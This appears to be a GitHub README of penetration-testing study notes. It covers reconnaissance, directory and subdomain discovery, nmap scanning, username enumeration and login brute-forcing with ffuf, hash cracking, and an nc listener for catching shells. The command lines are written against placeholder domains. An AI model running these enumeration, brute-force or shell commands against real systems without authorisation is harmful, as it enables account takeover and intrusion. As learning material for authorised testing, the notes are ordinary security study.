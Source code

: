 # Penetration-testing
Penetration testing flow:

  1. Planning and reconnaissance
     The first stage involves:

    Defining the scope and goals of a test, including the systems to be addressed and the testing methods to be used.
    Gathering intelligence (e.g., network and domain names, mail server) to better understand how a target works and its potential vulnerabilities.

  2. Scanning
The next step is to understand how the target application will respond to various intrusion attempts. This is typically done using:

    Static analysis – Inspecting an application’s code to estimate the way it behaves while running. These tools can scan the entirety of the code in a single pass.
    Dynamic analysis – Inspecting an application’s code in a running state. This is a more practical way of scanning, as it provides a real-time view into an application’s performance.

  3. Gaining Access


## Web penetration testing tools:
  ### Reconnaisance:
Outside of the site:
  -Dns dumpster [web site](https://dnsdumpster.com/), also finds subdomains
  -Whois records, DNS records, with nslookup get ip of domain name, dig
  | nslookup Query type | Description |
  | ----------- | ----------- |
  | A | IPv4 Address |
  | AAAA | IPv6 Address |
  | CNAME | Canonical Name |
  | MX | Mail Servers |
  | SOA | Start of Authority |
  | TXT | TXT Records |
  | ----------- | ----------- |

  ```
  nslookup -type=A domain.com
  whois domain.com
  dig domain.com TYPE
  ```
  -[Shodan.io](https://www.shodan.io/)
  ### Scanning:
In the site:
  -Content discovery:
      -Robots.txt 
      -Favicon.ico [Favicon database](https://wiki.owasp.org/index.php/OWASP_favicon_database)
      -Sitemap.xml
      -HTTP headers
      -Wappalyzer [link](https://www.wappalyzer.com)
      -Wayback machine
      -S3 bucket
      -ffuf, dirb, gobuster
      
```
ffuf -w SecLists/Discovery/Web-Content/common.txt -u https://domain.com
dirb https://domain.com SecLists/Discovery/Web-Content/common.txt
gobuster dir --url http:s://domain.com -wSecLists/Discovery/Web-Content/common.txt
```
      
  - Seclists GitHub [page](https://github.com/danielmiessler/SecLists)
Subdomain enumeration:
    -Sublist3r Github [page](https://github.com/aboul3la/Sublist3r)
    
 ```
python sublist3r.py -d example.com
 ```

### Gaining access:
Authentication bypass:
Username enumeration:

```
ffuf -w SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u https:://domain.org/customers/signup -mr "username already exists"
```

With the valid usernames, we can do login brute force:

``` 
ffuf -w valid_usernames.txt:W1,SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u https://domain.com/customers/login -fc 200
```

Hash breaking with hashcat and [cracking station](https://crackstation.net/)
 

## Systems penetration testing

### nmap commands
```
nmap -sV -sC -p- 10.20.30.40
```
-sV for version detection in ports
-sC scripts
-sS fast SYN scan
-A OS detect, version detect, script scan, traceroute
-p- for ports e.g -p-1-1000 

### Shells
```
nc -lvnp <port-number>
```
Listen a port in the attacking computer
